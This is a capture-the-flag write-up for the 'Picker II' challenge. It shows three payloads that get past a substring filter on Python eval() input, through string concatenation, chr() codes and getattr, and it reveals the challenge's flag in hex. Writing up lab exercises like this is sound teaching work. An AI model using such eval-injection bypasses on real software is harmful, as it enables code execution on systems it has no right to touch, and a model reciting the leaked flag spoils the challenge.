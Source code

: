 # **Picker II**

This challange is same as [Picker I](../16/)

## Challenge Description

We are given a Python script that runs in a loop:

* It reads user input (`user_input = input('==> ')`).
* It checks the input with a filter:

  ```python
  def filter(user_input):
      if 'win' in user_input:
          return False
      return True
  ```
* If allowed, it executes:

  ```python
  eval(user_input + '()')
  ```
* There is a hidden function `win()` which reads `flag.txt` and prints it in hex.

Goal: **Execute `win()` to retrieve the flag.**

---

## Code Analysis

1. **The Filter**

   * Blocks any string containing `"win"`.
   * Directly typing `win` at the prompt is rejected.

![illegal](./img/illegal.png)

2. **The Execution Path**

   * Whatever we type is passed to `eval(user_input + '()')`.
   * Example: typing `getRandomNumber` → becomes `eval("getRandomNumber()")`.

3. **Target Function**

   * `win()` opens `flag.txt`, strips whitespace, and prints each character as hex.
   * We must bypass the filter to call this function.

---

## Exploitation Strategy

* Since the filter only checks for the substring `"win"` **literally**, we can *construct* the string `"win"` at runtime without ever typing it directly.
* Python lets us do this in many ways:

  * String concatenation
  * ASCII codes with `chr()`
  * Attribute lookups with `getattr`

When these expressions are evaluated, they resolve to the `win` function object, then `()` executes it.

---

## Working Payloads

At the `==> ` prompt, type any of these:

### 1. String concatenation

```
globals()['w'+'in']
```

Execution:

* Filter sees `w'+'in` (no contiguous `"win"`).
* At runtime → `"w"+"in" = "win"`.
* `globals()['win']` resolves to the `win` function.
* Final eval = `globals()['win']()` → calls `win()`.

---

### 2. Using ASCII codes

```
globals()[chr(119)+chr(105)+chr(110)]
```

* `chr(119) = 'w'`, `chr(105) = 'i'`, `chr(110) = 'n'`.
* Concatenated = `"win"`.
* Calls `globals()["win"]()`.

---

### 3. getattr Trick

```
getattr(__import__('sys').modules['__main__'], 'w'+'in')
```

* Imports the current module (`__main__`).
* `getattr` fetches the `win` function dynamically.

---

## Expected Output

If `flag.txt` exists on the server, you will see something like:

![flag_hex](./img/flag_hex.png)

That is the flag in hex format. Convert hex → ASCII to recover the flag string.


```py
hexs = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x66 0x31 0x6c 0x37 0x33 0x72 0x35 0x5f 0x66 0x34 0x31 0x6c 0x5f 0x63 0x30 0x64 0x33 0x5f 0x72 0x33 0x66 0x34 0x63 0x37 0x30 0x72 0x5f 0x6d 0x31 0x67 0x68 0x37 0x5f 0x35 0x75 0x63 0x63 0x33 0x33 0x64 0x5f 0x62 0x39 0x32 0x34 0x65 0x38 0x65 0x35 0x7d "
print(''.join(chr(int(x,16)) for x in hexs.split()))
```

![result](./img/result.png)